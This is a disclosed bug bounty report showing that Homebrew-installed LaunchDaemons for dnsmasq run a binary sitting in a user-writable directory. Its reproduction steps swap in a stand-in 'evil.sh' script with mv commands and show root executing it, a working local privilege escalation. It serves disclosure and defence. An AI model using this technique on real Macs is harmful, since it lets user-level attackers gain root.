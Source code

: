 # Homebrew installed LaunchDaemons create simple root esclations

## Report Details
- **Report ID**: 586251
- **URL**: https://hackerone.com/reports/586251
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-05-20T19:34:49.683Z
- **Disclosed**: 2019-05-24T16:36:52.595Z

## Reporter
- **Username**: keeleysam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: homebrew

## Vulnerability Information
Many programs installed via Homebrew require services to function as expected - most of the time these are LaunchAgents but sometimes they need to run as root via LaunchDaemons to function properly.  While Homebrew attempts to secure the executables run by the LaunchDaemons that it installs, any other program running as the user can easily swap out the program for a simple root escalation.

Reproduction steps:
- In this case, we'll be looking at dnsmasq, but there are many others 

1. Install macOS Mojave 10.14.5, create an account and login.
2. Install homebrew with the instructions on brew.sh.
3. Run `brew install dnsmasq` - brew will tell the user to run `sudo brew services start dnsmasq`
4. Run `sudo brew services start dnsmasq` as prompted.

```
samuels-Mac:~ samuel$ sudo brew services start dnsmasq
Password:
==> Tapping homebrew/services
Cloning into '/usr/local/Homebrew/Library/Taps/homebrew/homebrew-services'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 17 (delta 0), reused 12 (delta 0), pack-reused 0
Unpacking objects: 100% (17/17), done.
Tapped 1 command (50 files, 62.6KB).
==> Successfully started `dnsmasq` (label: homebrew.mxcl.dnsmasq)
```
5. We'll find a new LaunchDaemon has been created:

```
samuels-Mac:~ samuel$ cat /Library/LaunchDaemons/homebrew.mxcl.dnsmasq.plist 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>Label</key>
    <string>homebrew.mxcl.dnsmasq</string>
    <key>ProgramArguments</key>
    <array>
      <string>/usr/local/opt/dnsmasq/sbin/dnsmasq</string>
      <string>--keep-in-foreground</string>
      <string>-C</string>
      <string>/usr/local/etc/dnsmasq.conf</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
  </dict>
</plist>
```

6. If we look at the folder `/usr/local/opt/dnsmasq/sbin` we can see that our user doesn't have write permissions on the `/usr/local/opt/dnsmasq/sbin/dnsmasq` program which the LaunchDaemon runs.  

```
samuels-Mac:~ samuel$ ls -lah /usr/local/opt/dnsmasq/sbin
total 560
drwxr-xr-x   3 samuel  staff    96B Oct 18  2018 .
drwxr-xr-x  10 samuel  staff   320B May 20 12:24 ..
-r-xr-xr-x   1 samuel  staff   279K Oct 18  2018 dnsmasq
samuels-Mac:~ samuel$ echo "" >> /usr/local/opt/dnsmasq/sbin/dnsmasq 
-bash: /usr/local/opt/dnsmasq/sbin/dnsmasq: Permission denied
```

7. However, because our user _does_ have write permissions on the `/usr/local/opt/dnsmasq/sbin` directory, an attacker can move `/usr/local/opt/dnsmasq/sbin/dnsmasq` to the side and replace it with a different executable:

```
samuels-Mac:~ samuel$ cat /tmp/evil.sh 
#!/bin/sh

touch /Library/evil

exit 0

samuels-Mac:~ samuel$ ls -lah /tmp/evil.sh 
-rwxr-xr-x  1 samuel  wheel    40B May 20 12:30 /tmp/evil.sh
samuels-Mac:~ samuel$ mv /usr/local/opt/dnsmasq/sbin/dnsmasq /usr/local/opt/dnsmasq/sbin/dnsmasq.bak
samuels-Mac:~ samuel$ mv /tmp/evil.sh /usr/local/opt/dnsmasq/sbin/dnsmasq
samuels-Mac:~ samuel$ ls -lah /usr/local/opt/dnsmasq/sbin/
total 568
drwxr-xr-x   4 samuel  staff   128B May 20 12:31 .
drwxr-xr-x  10 samuel  staff   320B May 20 12:24 ..
-rwxr-xr-x   1 samuel  wheel    40B May 20 12:30 dnsmasq
-r-xr-xr-x   1 samuel  staff   279K Oct 18  2018 dnsmasq.bak
samuels-Mac:~ samuel$ ls -lah /Library/evil
ls: /Library/evil: No such file or directory
```

8. Once the service relaunches for any reason (reboot of the Mac is most likely), root will execute the malicious executable.

```
samuels-Mac:~ samuel$ ls -lah /Library/evil 
-rw-r--r--  1 root  wheel     0B May 20 12:34 /Library/evil
```

## Impact

Any homebrew formula which prompts users to run `sudo brew services start` opens up this vulnerability.  

Once this is opened up, any attacker who can run code as the user can easily escalate to root.

## Attachments
No attachments
